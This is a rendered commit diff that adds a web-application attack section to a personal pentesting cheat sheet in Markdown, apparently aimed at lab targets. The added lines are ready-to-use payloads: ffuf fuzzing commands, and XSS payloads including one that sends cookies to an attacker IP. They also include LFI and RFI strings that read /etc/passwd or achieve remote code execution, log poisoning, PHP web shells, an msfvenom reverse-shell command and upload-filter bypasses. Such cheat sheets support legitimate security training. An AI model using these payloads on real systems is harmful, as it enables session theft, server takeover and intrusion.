

Before and after one commit to remiotore/remiotore, a Markdown page: docs/pentesting_cheatsheet.md, the part around one of its changes. Shown at 80% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Updated pentesting cheatsheet

```diff
--- a/docs/pentesting_cheatsheet.md
+++ b/docs/pentesting_cheatsheet.md
@@ -451,3 +458,39 @@
 ### IPMI Enumeration
 - `msf6 auxiliary(scanner/ipmi/ipmi_version)` - IPMI version detection
 - `msf6 auxiliary(scanner/ipmi/ipmi_dumphashes)` - Dump IPMI hashes
+
+# Web Application Attacks
+
+## FFUF (Web Fuzzing)
+- `ffuf -ic -c -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ` - Directory Fuzzing
+- `ffuf -ic -c -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/indexFUZZ` - Extension Fuzzing
+- `ffuf -ic -c -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/blog/FUZZ.php` - Page Fuzzing
+- `ffuf -ic -c -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ -recursion -recursion-depth 1 -e .php -v` - Recursive Fuzzing
+- `ffuf -ic -c -w wordlist.txt:FUZZ -u https://FUZZ.target.htb/` - Sub-domain Fuzzing
+- `ffuf -ic -c -w wordlist.txt:FUZZ -u http://target.htb:PORT/ -H 'Host: FUZZ.target.htb' -fs xxx` - VHost Fuzzing
+- `ffuf -ic -c -w wordlist.txt:FUZZ -u http://admin.target.htb:PORT/admin/admin.php?FUZZ=key -fs xxx` - Parameter Fuzzing - GET
+- `ffuf -ic -c -w wordlist.txt:FUZZ -u http://admin.target.htb:PORT/admin/admin.php -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx` - Parameter Fuzzing - POST
+
+## Cross-site Scripting (XSS)
+- `<script>alert(window.origin)</script>` - Basic XSS Payload
+- `<script>alert(document.cookie)</script>` - Cookie Stealer Payload
+- `<img src="" onerror=alert(document.cookie)>` - DOM-based XSS Payload
+- `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` - Send Cookie details to attacker
+- `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"` - Run XSStrike on a URL parameter
+- `sudo php -S 0.0.0.0:80` - Start PHP server for remote script loading
+
+## File Inclusion (LFI/RFI)
+- `/index.php?language=../../../../etc/passwd` - LFI with path traversal
+- `/index.php?language=php://filter/read=convert.base64-encode/resource=config` - Read PHP source code with base64 filter
+- `/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==&cmd=id` - RCE with data wrapper
+- `curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"` - RCE with input wrapper
+- `/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id` - Remote File Inclusion (RFI)
+- `curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>'` - User-Agent Log Poisoning
+
+## File Upload Attacks
+- `<?php system($_REQUEST['cmd']); ?>` - Basic PHP Web Shell
+- `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` - Generate PHP reverse shell
+- `shell.phtml` / `shell.pHp` - Extension Whitelist/Blacklist Bypass
+- `shell.jpg.php` - Double Extension Bypass
+- `echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.php` - MIME-Type Bypass (Magic Bytes)
+
```
Also changed, not shown: other parts of docs/pentesting_cheatsheet.md (+23 -0 lines).
